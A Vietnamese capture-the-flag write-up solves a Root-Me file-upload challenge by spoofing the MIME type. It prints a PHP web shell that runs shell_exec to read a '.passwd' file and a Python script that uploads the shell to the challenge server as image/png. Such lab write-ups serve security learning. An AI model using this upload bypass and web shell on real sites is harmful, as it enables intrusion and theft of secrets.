 # File upload - MIME type

## Solution

Trick là tải lên tệp exploit.php với loại MIME được ủy quyền (images/png - image/jpeg - image/gif) thay vì loại gốc (application/x-http-php)

Sau khi upload, nền tảng web sẽ interpret các file với phần mở rộng của chúng: exploit.php được hiển thị dưới dạng application/x-httpd-php chứ không phải dưới dạng hình ảnh (double extensions không hoạt động)

Hãy khai thác điều này bằng Python!

- Upload image thử nghiệm, test.png

    Lưu ý rằng image có thể được xem tại: http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/SOME_SESSION_ID//test.png

- Upload exploit.php bằng Python

    Payload exploit.php
    ```
    <?php
    $cmd_results = shell_exec('cat ../../../.passwd 2>&1');
    echo "<pre>$cmd_results</pre>";
    ?>
    ```

    Uploading script.py

    ```
    import requests

    url = 'http://challenge01.root-me.org/web-serveur/ch21/?action=upload'
    f = {'file': ('exploit.php', open('exploit.php', 'rb'), 'image/png')}     # File MIME type set to image/png
    r = requests.post(url, files=f, data={'Connection': 'keep-alive'})

    session_id = r.headers['Set-Cookie'].split('=')[1].split(';')[0]          # Session id given by field Set-Cookie in response
    new_url = 'http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/%s//exploit.php' %session_id
    print("[+] File uploaded at %s" %new_url)
    ```

    Terminal:

    ```
    python -m venv virtualenv
    source virtualenv/bin/activate
    pip install requests
    python script.py
    ```

    Mở trình duyệt web có đường dẫn được print là: http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/NEW_SESSION_ID//exploit.php để lấy password!